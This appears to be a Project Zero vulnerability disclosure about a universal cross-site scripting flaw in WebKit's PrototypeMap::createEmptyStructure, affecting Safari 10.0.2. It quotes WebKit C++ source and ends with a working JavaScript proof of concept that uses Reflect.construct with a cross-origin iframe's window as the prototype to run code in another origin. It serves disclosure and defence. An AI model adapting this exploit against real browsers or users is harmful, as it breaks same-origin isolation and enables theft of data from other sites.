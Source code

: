 # UXSS via PrototypeMap::createEmptyStructure

### Reported by lokihardt@google.com, Jan 17 2017

When creating an object in Javascript, its `Structure` is created with the constructor's prototype's `VM`.

Here's some snippets of that routine.

```cpp
Structure* InternalFunction::createSubclassStructure(ExecState* exec, JSValue newTarget, Structure* baseClass)
{
    ...
    if (newTarget && newTarget != exec->jsCallee()) {
        // newTarget may be an InternalFunction if we were called from Reflect.construct.
        JSFunction* targetFunction = jsDynamicCast<JSFunction*>(newTarget);

        if (LIKELY(targetFunction)) {
            ...
                return targetFunction->rareData(vm)->createInternalFunctionAllocationStructureFromBase(vm, prototype, baseClass);
            ...
        } else {
            ...
                return vm.prototypeMap.emptyStructureForPrototypeFromBaseStructure(prototype, baseClass);
            ...
        }
    }

    return baseClass;
}

inline Structure* PrototypeMap::createEmptyStructure(JSObject* prototype, const TypeInfo& typeInfo, const ClassInfo* classInfo, IndexingType indexingType, unsigned inlineCapacity)
{
    ...
    Structure* structure = Structure::create(
        prototype->globalObject()->vm(), prototype->globalObject(), prototype, typeInfo, classInfo, indexingType, inlineCapacity);
    m_structures.set(key, Weak<Structure>(structure));
    ...
}
```

As we can see `Structure::create` is called with prototype's `vm` and `globalObject` as arguments. So it could lead to an UXSS condition.

Tested on Safari 10.0.2(12602.3.12.0.1) and Webkit Nightly 10.0.2(12602.3.12.0.1, r210800).

Poc:

```js
let f = document.body.appendChild(document.createElement('iframe'))
f.onload = () => {
	f.onload = null

	let g = function() {}
	g.prototype = f.contentWindow

	let a = Reflect.construct(Function, ['return window[0].eval;'], g)
	let e = a()
	e('alert(location)')
}

f.src = 'https://abc.xyz/'
```

Link: https://bugs.chromium.org/p/project-zero/issues/detail?id=1084
